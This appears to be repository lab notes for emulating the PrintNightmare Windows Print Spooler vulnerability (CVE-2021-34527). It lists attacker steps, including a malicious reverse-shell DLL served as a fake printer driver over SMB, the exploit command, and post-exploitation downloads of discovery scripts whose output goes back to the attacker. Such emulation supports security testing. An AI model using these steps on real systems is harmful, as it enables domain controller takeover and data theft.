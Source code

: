 # PrintNightmare Windows Print Spooler Vulnerability (CVE2021-34527)
Ref: https://github.com/m8sec/CVE-2021-34527?tab=readme-ov-file

Pre-exploitation

Attacker
1. Install Impacket and python script to exploit the vulnerability
2. Install metasploit (if you aren't using Kali), create a malicious dll as a faked printer driver and set up a listener on port 1443

   Steps to create a reverse shell dll: https://thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/
4. Run SMB server service and modify the config file
5. Place the faked printer driver to the SMB path
6. Ensure the target is vulnerable to MS-RPRN (Print System Remote Protocol) by running
   rpcdump.py <username>:<password>:@<target IP addr> | grep MS-RPRN
7. Exploit the vulnerability to the target machine
   sudo python3 CVE-2021-34527.py -u <username> -p <password> -d <domain controller IP addr> -dll <path/path/to/maliciousdll> <domain IP addr>

Target machine
1. Ensure the Domain Controller is running the Print Spooler Service and is vulnerable by checking the 
   Powershell
   PS C:\Users\Administrator> get-service spooler
   PS C:\Users\Administrator> start-service spooler

**e.g. replace <username> with a domain user account login credential

# Guides to emulate the vulnerability
Post-exploitation
Download 2 scripts to discovery local machine and domain group info, then send them back to attacker listener. 

'''console
<Invoke-WebRequest -Uri path/to/discovery.bat -o discovery.bat>
<Invoke-WebRequest -Uri path/to/export.bat -o export.bat>
'''

